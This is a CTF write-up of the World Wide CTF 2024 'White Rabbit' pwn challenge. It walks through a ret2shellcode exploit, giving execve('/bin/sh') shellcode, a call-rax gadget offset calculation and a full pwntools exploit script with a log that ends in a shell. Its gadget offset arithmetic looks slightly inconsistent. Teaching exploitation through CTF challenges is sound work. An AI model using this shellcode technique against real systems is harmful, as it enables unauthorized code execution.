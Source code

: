 ```yaml
---
title: "[WRITE UP] - World Wide CTF 2024 - White Rabbit"
published: 2024-12-01
description: "Write up for White Rabbit challenge"
image: "./image.png"
tags:
  - "PWN"
category: "CTF Write ups"
draft: false
---
```


### Description

> Just a nice easy warmup for you...
>

### Analysis

### General information

```bash
  (\\_/)
  ( •_•)
  / > 0x556bdd42d180

follow the white rabbit...
```

```bash
[*] '/home/alter/CTFs/WWF_2024/pwn/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
```

So we can see here, the binary have no canary and the PIE is enabled. One more thing is `Stack` is executable and it leak the address each time we run the binary. So we can think about `ret2shellcode`

### Brain time

So my experience for this is just take that address and maybe we will need it, so this is my code for take that leak address:

```python
p.recvuntil(b'/ > ')
leak = int(p.recvline()[:-1], 16)
info("[+] Leak: " + hex(leak))
```

Just check what that address it leak is by using dynamic debugging. I'm breakpoint at `follow()` function. We can see our leak address in my case is `0x555555555180` (I have disabled `ASLR` for easier). When I look around there is the leak address of `main` function:

```python
gef➤  disas*main
Dump of assembler code for function main:
   0x0000555555555180 <+0>:     push   rbp
```

Or we can look at pseudocode in IDA:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("\\n  (\\\\_/)");
  puts(asc_200D);
  printf("  / > %p\\n\\n", main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

As said before, the idea of this is `ret2shellcode` so what we need to find is:

- Offset from input to RIP
- Gadget
- Craft shellcode

For the offset, it is a little bit easy so I will skip this

The next step involves identifying the gadget. To identify the gadget in a PIE (Position Independent Executable) binary, tools like `ROPgadget` and `ropper` are used. However, because PIE is enabled, these tools cannot display the absolute addresses of gadgets. Instead, they provide offsets relative to the binary's base address, which is determined only at runtime.

To work around this, I used `ROPchain` to find the gadget's offset. Then, I calculated its relative position by comparing the gadget’s offset to the address of the main function in the binary. To do this, I first disassembled the main function in GDB before running the binary, capturing its pre-loading address. Subtracting the gadget's offset from the main’s address gave me the relative offset, which remains consistent between local and remote execution of the binary due to the fixed layout enforced by PIE.

```
➜  pwn ROPgadget --binary white_rabbit | grep "call rax"
0x000000000000100d : add byte ptr [rax], al ; test rax, rax ; je 0x1016 ; call rax
0x0000000000001014 : call rax
0x0000000000001012 : je 0x1016 ; call rax
0x0000000000001010 : test eax, eax ; je 0x1016 ; call rax
0x000000000000100f : test rax, rax ; je 0x1016 ; call rax

```

```nasm
gef➤  disas*main
Dump of assembler code for function main:
   0x0000000000001180 <+0>:     push   rbp

```

So our gadget's offset is `0x1180` - `0x10bf`= `0xc1`. But why is `call rax`? Because in the `x86-64` calling convention, the return value of a function is typically stored in the `RAX` register. This convention applies to most functions, including standard library functions like `gets`.

The last one is shellcode, just basic `/bin/sh` shellcode:

```nasm
    push 0x3b
    pop rax

    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi

    cdq
    push rdx
    pop rsi

    syscall
```

### Exploit

```python
#!/usr/bin/python3
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./white_rabbit', checksec=False)
def GDB(): gdb.attach(p, gdbscript='''

c
''') if not args.REMOTE else None

p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

ru(b'/ > ')
leak = int(rl()[:-1], 16)
info("Leak: " + hex(leak))

gadget = leak - 0xc1
shellcode = asm("""
    push 0x3b
    pop rax

    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi

    cdq
    push rdx
    pop rsi

    syscall
""", arch="amd64")

pl = flat(
    shellcode.ljust(120, b'A'),
    p64(gadget)
    )

sl(pl)
interactive()

```

```bash
➜  pwn ./exploit.py
[+] Starting local process '/home/alter/CTFs/WWF_2024/pwn/white_rabbit': pid 12216
[!] ASLR is disabled!
[DEBUG] Received 0x47 bytes:
    00000000  0a 20 20 28  5c 5f 2f 29  0a 20 20 28  20 e2 80 a2  │·  (│\\_/)│·  (│ ···│
    00000010  5f e2 80 a2  29 0a 20 20  2f 20 3e 20  30 78 35 35  │_···│)·  │/ > │0x55│
    00000020  35 35 35 35  35 35 35 31  38 30 0a 0a  66 6f 6c 6c  │5555│5551│80··│foll│
    00000030  6f 77 20 74  68 65 20 77  68 69 74 65  20 72 61 62  │ow t│he w│hite│ rab│
    00000040  62 69 74 2e  2e 2e 0a                               │bit.│..·│
    00000047
[*] Leak: 0x555555555180
[DEBUG] cpp -C -nostdinc -undef -P -I/home/alter/.local/lib/python3.12/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        push 0x3b
        pop rax
        mov rdi, 0x68732f6e69622f
        push rdi
        push rsp
        pop rdi
        cdq
        push rdx
        pop rsi
        syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-x8nkdsmx/step2 /tmp/pwn-asm-x8nkdsmx/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-x8nkdsmx/step3 /tmp/pwn-asm-x8nkdsmx/step4
[DEBUG] Sent 0x81 bytes:
    00000000  6a 3b 58 48  bf 2f 62 69  6e 2f 73 68  00 57 54 5f  │j;XH│·/bi│n/sh│·WT_│
    00000010  99 52 5e 0f  05 41 41 41  41 41 41 41  41 41 41 41  │·R^·│·AAA│AAAA│AAAA│
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  41 41 41 41  41 41 41 41  bf 50 55 55  55 55 00 00  │AAAA│AAAA│·PUU│UU··│
    00000080  0a                                                  │·│
    00000081
[*] Switching to interactive mode

follow the white rabbit...
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\\n'
[DEBUG] Received 0x6 bytes:
    b'alter\\n'
alter
```
